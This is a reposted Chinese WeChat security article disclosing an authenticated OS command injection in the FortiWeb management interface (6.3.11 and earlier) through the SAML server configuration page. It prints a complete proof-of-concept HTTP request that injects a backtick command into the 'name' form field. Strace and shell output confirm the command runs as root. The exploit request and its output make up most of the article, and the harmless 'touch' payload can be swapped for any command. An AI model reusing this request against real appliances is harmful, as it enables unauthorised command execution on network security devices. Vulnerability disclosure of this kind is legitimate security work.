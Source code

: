 ##  0day Fortinet FortiWeb OS 命令注入

[ 黑白之道 ](javascript:void\(0\);)

**黑白之道** ![]()

微信号 i77169

功能介绍 我们是网络世界的启明星，安全之路的垫脚石。

____

__

收录于话题

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075153.png)

> 文章来源：Khan安全攻防实验室

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075154.png)

  

![]()

  

        FortiWeb 管理界面（版本 6.3.11 及更早版本）中的操作系统命令注入漏洞可允许远程、经过身份验证的攻击者通过 SAML 服务器配置页面在系统上执行任意命令。

  

POC：  

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /api/v2.0/user/remoteserver.saml HTTP/1.1Host: [redacted]Cookie: [redacted]User-Agent: [redacted]Accept: application/json, text/plain, */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateReferer: https://[redacted]/root/user/remote-user/saml-user/X-Csrftoken: 814940160Content-Type: multipart/form-data; boundary=---------------------------94351131111899571381631694412Content-Length: 3068Origin: https://[redacted]Dnt: 1Te: trailersConnection: close-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="q_type"1-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="name"`touch /tmp/vulnerable`-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="entityID"test-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="service-path"/saml.sso-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="session-lifetime"8-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="session-timeout"30-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="sso-bind"post-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="sso-bind_val"1-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="sso-path"/SAML2/POST-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="slo-bind"post-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="slo-bind_val"1-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="slo-path"/SLO/POST-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="flag"0-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="enforce-signing"disable-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="enforce-signing_val"0-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="metafile"; filename="test.xml"Content-Type: text/xml<?xml version="1.0"?><md:EntityDescriptor xmlns:md="urn:oasis:names:tc:SAML:2.0:metadata" validUntil="2021-06-12T16:54:31Z" cacheDuration="PT1623948871S" entityID="test"><md:IDPSSODescriptor WantAuthnRequestsSigned="false" protocolSupportEnumeration="urn:oasis:names:tc:SAML:2.0:protocol"><md:KeyDescriptor use="signing"><ds:KeyInfo xmlns:ds="http://www.w3.org/2000/09/xmldsig#"><ds:X509Data><ds:X509Certificate>test</ds:X509Certificate></ds:X509Data></ds:KeyInfo></md:KeyDescriptor><md:KeyDescriptor use="encryption"><ds:KeyInfo xmlns:ds="http://www.w3.org/2000/09/xmldsig#"><ds:X509Data><ds:X509Certificate>test</ds:X509Certificate></ds:X509Data></ds:KeyInfo></md:KeyDescriptor><md:NameIDFormat>urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified</md:NameIDFormat><md:SingleSignOnService Binding="urn:oasis:names:tc:SAML:2.0:bindings:HTTP-Redirect" Location="test"/></md:IDPSSODescriptor></md:EntityDescriptor>-----------------------------94351131111899571381631694412--HTTP/1.1 500 Internal Server ErrorDate: Thu, 10 Jun 2021 11:59:45 GMTCache-Control: no-cache, no-store, must-revalidatePragma: no-cacheSet-Cookie: [redacted]X-Frame-Options: SAMEORIGINX-XSS-Protection: 1; mode=blockContent-Security-Policy: frame-ancestors 'self'X-Content-Type-Options: nosniffContent-Length: 20Strict-Transport-Security: max-age=63072000Connection: closeContent-Type: application/json{"errcode": "-651"}

  

“touch”命令连接在 mkdir shell 命令中：

  

  *   *   *   * 

    
    
    [pid 12867] execve("/migadmin/cgi-bin/fwbcgi", ["/migadmin/cgi-bin/fwbcgi"], 0x55bb0395bf00 /* 42 vars */) = 0[pid 13934] execve("/bin/sh", ["sh", "-c", "mkdir /data/etc/saml/shibboleth/service_providers/`touch /tmp/vulnerable`"], 0x7fff56b1c608 /* 42 vars */) = 0[pid 13935] execve("/bin/touch", ["touch", "/tmp/vulnerable"], 0x55774aa30bf8 /* 44 vars */) = 0[pid 13936] execve("/bin/mkdir", ["mkdir", "/data/etc/saml/shibboleth/service_providers/"], 0x55774aa30be8 /* 44 vars */) = 0

  

在 FortiWeb 设备的本地命令行上看到“touch”命令的结果：

  

  *   *   * 

    
    
    /# ls -l /tmp/vulnerable-rw-r--r--    1 root     0                0 Jun 10 11:59 /tmp/vulnerable/#

侵权请私聊公众号删文

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075155.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075156.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075157.png)

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

0day Fortinet FortiWeb OS 命令注入

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

